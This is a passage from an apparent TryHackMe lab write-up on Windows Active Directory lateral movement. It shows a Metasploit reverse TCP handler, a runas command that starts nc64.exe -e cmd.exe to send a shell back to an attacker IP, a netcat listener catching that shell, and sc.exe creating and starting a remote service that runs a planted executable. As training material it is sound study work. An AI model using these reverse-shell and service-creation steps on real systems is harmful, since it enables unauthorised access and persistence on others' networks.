 ```bash
   Id  Name
   --  ----
   0   Wildcard Target
View the full module info with the info, or info -d command.
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.50.49.50:4444


```
+ After Upload the Services and setup listener then triggering the service using:
```cmd.exe
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.49.50 4443"
```
+ Before running that please make sure to listen on port `4443`

```bash
┌──(kali㉿kali)-[~/TryHackMe]
└─$ nc -lvp 4443
listening on [any] 4443 ...
10.200.51.249: inverse host lookup failed: Unknown host
connect to [10.50.49.50] from (UNKNOWN) [10.200.51.249] 54119
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
za\arthur.campbell
```

+ Creating The Service using `sc.exe`
```bash (cmd)
C:\Windows\system32>sc.exe \\thmiis.za.tryhackme.com create DodolSvc binPath= "%windir%\dodol.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com create DodolSvc binPath= "%windir%\dodol.exe" start= auto
[SC] CreateService SUCCESS

C:\Windows\system32>sc.exe \\thmiis.za.tryhackme.com start DodolSvc
sc.exe \\thmiis.za.tryhackme.com start DodolSvc

SERVICE_NAME: DodolSvc 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
            (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3312
        FLAGS              : 
```
